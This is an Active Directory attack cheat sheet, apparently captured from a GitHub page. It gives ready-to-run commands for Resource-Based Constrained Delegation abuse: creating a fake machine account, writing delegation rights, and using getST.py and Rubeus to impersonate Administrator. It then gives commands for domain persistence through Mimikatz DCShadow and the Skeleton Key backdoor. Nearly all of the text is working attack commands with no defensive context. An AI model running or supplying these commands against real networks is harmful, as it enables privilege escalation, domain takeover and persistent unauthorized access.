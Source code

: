 ### **3. Resource-Based Constrained Delegation (RBCD)**

#### **Linux:**
```bash
# Add computer account
addcomputer.py -computer-name 'FAKE$' -computer-pass 'Password123!' domain.com/username:password -dc-ip DC_IP

# Set delegation
rbcd.py -delegate-from 'FAKE$' -delegate-to 'TARGET$' -action write domain.com/username:password -dc-ip DC_IP

# Get ticket
getST.py -spn 'cifs/TARGET.domain.com' -impersonate Administrator domain.com/'FAKE$':'Password123!' -dc-ip DC_IP
```

#### **Windows:**
```powershell
# PowerMad + PowerView
New-MachineAccount -MachineAccount FAKE -Password $(ConvertTo-SecureString 'Password123!' -AsPlainText -Force)
Set-DomainRBCD -Identity TARGET$ -DelegateFrom FAKE$

# Rubeus
.\Rubeus.exe s4u /user:FAKE$ /rc4:HASH /impersonateuser:Administrator /msdsspn:cifs/TARGET.domain.com /ptt
```

---

## 🔐 **Persistence**

### **1. DCShadow**

#### **Windows:**
```powershell
# Mimikatz
lsadump::dcshadow /object:CN=Administrator,CN=Users,DC=domain,DC=com /attribute:userAccountControl /value:512
lsadump::dcshadow /push
```

### **2. Skeleton Key**

#### **Windows:**
```powershell
# Mimikatz
misc::skeleton
# Password becomes "mimikatz"
```
